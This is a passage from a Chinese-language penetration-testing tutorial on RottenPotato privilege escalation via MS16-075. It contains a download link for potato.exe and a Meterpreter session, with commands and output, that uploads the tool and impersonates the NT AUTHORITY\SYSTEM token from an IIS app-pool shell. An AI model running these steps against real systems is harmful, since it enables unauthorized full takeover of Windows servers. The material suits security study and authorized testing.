```
Windows 10 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 Version 1511 for 32-bit Systems
Windows 10 Version 1511 for x64-based Systems
```

来自官方：

```
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-075
```

然而在实战情况下的效果却是，只有 Windows 7 x86 和 x64 系统上能够稳定立即提权，Windows Server 2008 R2 x64 和 Windows Server 2012 x64 虽然可以提权，但是等待的时间比较长，这分别和 Windows Updata 时间、Windows 更新证书列表时间有关。而 Windows 8 和 10 的成功率非常低，在实战当中不妨一试。

**0x05 各版本的土豆提权工具（利用方法）**

利用方法都比较简单，以下展示的都是 webshell 版，更贴合实战情况，按照命令执行即可。

 **（1）RottenPotato**

```
下载地址：
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-075/potato.exe
```

利用 MSF 接收 shell，接着在控制台输入以下命令：

```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool

meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
SeAssignPrimaryTokenPrivilege

meterpreter > upload /root/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
